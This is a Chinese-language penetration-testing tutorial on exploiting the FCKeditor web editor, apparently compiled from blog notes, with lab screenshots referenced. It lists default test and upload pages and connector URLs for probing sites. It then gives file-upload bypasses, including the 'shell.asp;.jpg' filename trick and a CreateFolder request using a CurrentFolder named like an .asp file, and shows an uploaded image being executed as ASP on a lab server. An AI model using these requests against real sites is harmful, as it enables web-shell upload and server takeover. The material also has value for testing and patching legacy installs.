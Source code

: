 # FCKeditor编辑器渗透思路

### 1.查看FCKeditor版本

```
http://127.0.0.1/fckeditor/editor/dialog/fck_about.html
http://127.0.0.1/FCKeditor/_whatsnew.html
```

### 2.一些FCK默认链接(以asp为例)：

```html
上传测试页面：Fckeditor编辑器默认会存在test.html和uploadtest.html文件，直接访问这些文件可以获取当前文件夹文件名称以及上传文件，有的版本可以直接上传任意文件类型，测试上传地址有：
FCKeditor/editor/filemanager/browser/default/connectors/test.html
FCKeditor/editor/filemanager/upload/test.html
FCKeditor/editor/filemanager/connectors/test.html
FCKeditor/editor/filemanager/connectors/uploadtest.html

示例页面：
FCKeditor/_samples/default.html
FCKeditor/_samples/asp/sample01.asp
FCKeditor/_samples/asp/sample02.asp
FCKeditor/_samples/asp/sample03.asp
FCKeditor/_samples/asp/sample04.asp

连接器：
FCKeditor/editor/filemanager/connectors/asp/connector.asp
FCKeditor/editor/filemanager/connectors/aspx/connector.aspx

创建文件夹链接：
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/&NewFolderName=test

上传页面：
Fckeditor/editor/filemanager/browser/default/browser.html?Type=file&Connector=connectors/asp/connector.Asp
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=/&Connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=monyer&Connector=connectors/asp/connector.asp

有时候，网站管理员会把上传页面禁止创建文件夹和上传文件，但是由于网站管理员的配置不当，我们的连接器写绝对路径的话，有时候可以创建文件夹和上传文件
Fckeditor/editor/filemanager/browser/default/browser.html?Type=file&Connector=http://ww.xxx.com/connectors/asp/connector.Asp
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://ww.xxx.com/connectors/asp/connector.asp
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Flash&Connector=http://ww.xxx.com/connectors/asp/connector.asp
```

### 3.上传绕过

检测文件名中的‘.’修改为‘_’，绕过方式：

1.在上传了诸如*shell.asp;.jpg*的文件后，会自动将文件名改为*shell_asp;.jpg*。可以继续上传同名文件，文件名会变为*shell.asp;(1).jpg*

2.配合web服务器解析漏洞等文件上传漏洞

3.突破建立文件夹：

FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/&NewFolderName=test

FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/xx.asp&NewFolderName=x.asp

### 



=================================================================================**FCKeditor编辑器**


 

可以去这下载编辑器:http://download.csdn.net/detail/u011781521/9767326
 


 

**1.查看编辑器版本**


 

FCKeditor/_whatsnew.html


 

![img](FCKeditor编辑器漏洞通杀/20170301133148251)
 


 

**2.FCKeditor编辑器页** 
 
 FCKeditor/_samples/default.html
 


 

![img](FCKeditor编辑器漏洞通杀/20170301133225352)
 


 

**3.常用上传地址**


 



```html
FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp



FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/



FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp



FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=../../connectors/asp/connector.asp
```




 

由于这里用的是2.5的版本所以下面这条语句能用


 



```html
http://192.168.87.129:8234//editor/filemanager/browser/default/browser.html?Type=Image&Connector=../../connectors/asp/connector.asp
```


![img](FCKeditor编辑器漏洞通杀/20170301140209859)




 

如果在输入以上地址测试的过程中弹出以下的提示


 



![img](FCKeditor编辑器漏洞通杀/20170301141548991)


 

那就是没有开启文件上传功能,要把\editor\filemanager\connectors\asp\config.asp文件中的


 

Dim ConfigIsEnabled
 ConfigIsEnabled = False
 


 

设置成功true。就行了，然后上传6.asp;.jpg文件试试


 

![img](FCKeditor编辑器漏洞通杀/20170301141915308)
 


 

发现他进行了过滤6.asp;.jpg改成了6_asp;.jpg,把点改成了下划线。审查元素看下图片的路径


 


 

![img](FCKeditor编辑器漏洞通杀/20170301142348518)
 


 

访问这个路径看下。


 

![img](FCKeditor编辑器漏洞通杀/20170301142449972)
 


 

asp文件并没有被解析成功。


 

这就是fckeditor过滤"."为"_"的一个机制,想要突破的话有以下两种方式：


 

**1.二次上传**


 

第一次上传：qq.asp;.jpg ==》qq_asp;.jpg

第二次上传：qq.asp;.jpg ==》qq_asp;.jpg (不满足命名要求)

可能出现第二次命名为 qq.asp;.(1).jpg


 

![img](FCKeditor编辑器漏洞通杀/20170301144717658)


 

还是被过滤了。。
 


 


 

**2.新建上传**


 

手动新建一个文件夹


 

![img](FCKeditor编辑器漏洞通杀/20170301144347185)
 


 

发现他还是过滤了。那我们只有突破建立文件夹了。
 


 

执行以下地址就能成功创建文件夹


 



```html
/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/fendo.asp&NewFolderName=x.asp
```


![img](FCKeditor编辑器漏洞通杀/20170301145746516)



![img](FCKeditor编辑器漏洞通杀/20170301145900893)
 


 

这又是为什么了????手动不能创建，而通过以上地址就能成功创建了，让我们来对比下，手动创建和通过以上地址创建的一个区别。
 


 



漏洞地址：

/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/fendo.asp&NewFolderName=x.asp


 

手工新建：

/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/&NewFolderName=fendo.asp

 

原因：

CurrentFolder：当前文件夹 未进行过滤(这个文件夹下的没有过滤)

NewFolderName：新建文件名 进行了过滤


 

这就是为什么通过上面地址能创建，而手动却不能创建的一个原因，然后我们再上传6.asp;.jpg到fendo.asp文件下看是否成功解析。


 

![img](FCKeditor编辑器漏洞通杀/20170301151146548)
 


 

成功解析。。
